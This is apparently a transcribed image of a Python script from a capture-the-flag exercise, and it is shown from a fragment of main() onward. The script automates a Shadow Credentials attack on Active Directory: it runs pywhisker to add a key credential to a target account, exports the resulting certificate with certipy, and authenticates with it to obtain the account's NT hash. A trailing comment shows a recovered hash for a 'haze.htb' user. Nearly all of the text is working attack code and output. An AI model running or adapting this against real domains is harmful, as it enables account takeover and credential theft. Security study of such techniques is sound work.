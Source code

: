 ```bash

    hash = False

    if args.password.startswith(":"):
        hash = True

    print(f"[+] Domain: {args.domain}")
    print(f"[+] Auth User: {args.user}")
    print(f"[+] Target User: {args.target}")
    print(f"[+] Pw/Hash: {args.password}")

    cmd = f'pywhisker -d "{args.domain}" -u "{args.user}" -p "{args.password}" --target "{args.target}" --action "add"'

    if hash:
        cmd = f'pywhisker -d "{args.domain}" -u "{args.user}" -H "{args.password}" --target "{args.target}" --action "add"'

    print(cmd)

    out = subprocess.run(
        cmd,
        shell=True,
        capture_output=True,
    )

    print(f"stdout = {out.stdout}")
    print(f"stderr = {out.stderr}")

    pfx_path = out.stdout.decode(errors="ignore").split("at path: ")[1].split("\n")[0]
    pfx_password = (
        out.stdout.decode(errors="ignore").split("with password: ")[1].split("\n")[0]
    )

    subprocess.run(
        f"certipy cert -export -pfx '{pfx_path}' -password '{pfx_password}' -out 'unprotected1.pfx'",
        shell=True,
    )

    subprocess.run(
        f"faketime \"$(ntpdate -q $(cat ip.txt) | cut -d ' ' -f 1,2)\" certipy auth -pfx unprotected1.pfx -dc-ip $(cat ip.txt) -domain '{args.domain}' -username {args.target}",
        shell=True,
    )


if __name__ == "__main__":
    main()

# [*] Got hash for 'edward.martin@haze.htb': aad3b435b51404eeaad3b435b51404ee:09e0b3eeb2e7a6b0d419e9ff8f4d91af
```
